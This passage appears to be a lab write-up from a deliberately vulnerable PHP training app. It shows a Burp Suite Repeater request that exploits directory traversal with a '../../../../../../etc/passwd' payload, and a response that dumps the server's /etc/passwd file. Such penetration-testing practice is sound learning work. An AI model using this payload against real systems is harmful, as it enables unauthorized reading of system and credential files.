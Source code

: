 ```http
    
[...]
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_1.php?page=../../../../../../etc/passwd📌 HTTP/1.1
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:05:58 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 14198
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Files</h1>

    root:x:0:0:root:/root:/bin/bash
<br />daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<br />bin:x:2:2:bin:/bin:/usr/sbin/nologin
<br />sys:x:3:3:sys:/dev:/usr/sbin/nologin
<br />sync:x:4:65534:sync:/bin:/bin/sync
<br />games:x:5:60:games:/usr/games:/usr/sbin/nologin
<br />man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<br />lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<br />mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<br />news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<br />uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<br />proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<br />www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<br />backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<br />list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<br />irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
<br />gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<br />nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<br />libuuid:x:100:101::/var/lib/libuuid:
<br />syslog:x:101:104::/home/syslog:/bin/false
<br />mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
<br /><br />
```